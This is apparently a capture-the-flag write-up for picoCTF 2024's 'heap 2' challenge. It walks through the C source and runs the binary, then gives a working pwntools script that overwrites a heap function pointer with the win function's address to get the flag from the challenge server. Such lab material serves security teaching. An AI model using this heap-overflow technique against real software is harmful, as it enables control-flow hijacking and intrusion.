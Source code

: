 # heap 2

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Level: Medium
Tags: Binary Exploitation, picoCTF 2024, browser_webshell_solvable, heap
Author: ABRXS, PR1OR1TYQ

Description:
Can you handle function pointers?

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 61205
 
Hints:
1. Are you doing the right endianness?
```
Challenge link: [https://play.picoctf.org/practice/challenge/435](https://play.picoctf.org/practice/challenge/435)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
Main basically does the following:
- Initialize the heap by calling the `init` function 
- Print the menu with the `print_menu` function
- Read the menu choice, basically 1-4, and do different things based on the choice

The big difference compared to the previous heap challenge is that the `check_win` function (menu choice 4) is "empty" and will call the address pointed to from the variable `x`
```c
void check_win() { ((void (*)())*(int*)x)(); }
```

There is also a `win` function that will print the flag for us
```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ file chall               
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d5184d264ae0c1259ba3bb7a1e20fc348b4274b0, for GNU/Linux 3.2.0, with debug_info, not stripped

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ ./chall                    

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x49e6b0  ->   pico
+-------------+-----------+
[*]   0x49e6d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 
```
As before, the difference between the memory positions is 32 bytes. 
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ python -c "print(0x49e6d0 - 0x49e6b0)"                                                 
32
```

The variable `x` is set to `bico` and if we try to print the flag we get a segmentation fault since `x` currently points to an invalid memory address.
```bash
Enter your choice: 3


x = bico


1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 4
zsh: segmentation fault  ./chall

```

### Create an exploitation script

We need to know the memory address of the `win` function in order to call it.
This can be done with `objdump`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ objdump -t chall | grep win
00000000004011f0 g     F .text  0000000000000011              check_win
00000000004011a0 g     F .text  0000000000000042              win
```
So the `win` function is at `0x4011a0`.

Next, we write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to get the flag
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 61205

# Set output level (critical, error, warning, info, debug)
context.log_level = "info"

io = remote(SERVER, PORT)

# Select menu option 2 (Write to buffer)
io.sendlineafter(b"Enter your choice: ", b'2')

# Send payload
win_func = 0x4011a0
payload = 32 * b'A' + p64(win_func)
io.sendlineafter(b"Data for buffer: ", payload)

# Select menu option 4 (Print Flag)
io.sendlineafter(b"Enter your choice: ", b'4')
print(io.recvallS())
io.close()
```

### Get the flag

Finally, we run the script and get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to mimas.picoctf.net on port 61205: Done
[+] Receiving all data: Done (42B)
[*] Closed connection to mimas.picoctf.net port 61205
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [Wikipedia - Endianness](https://en.wikipedia.org/wiki/Endianness)
- [Wikipedia - Heap (data structure)](https://en.wikipedia.org/wiki/Heap_(data_structure))
- [Wikipedia - Heap overflow](https://en.wikipedia.org/wiki/Heap_overflow)
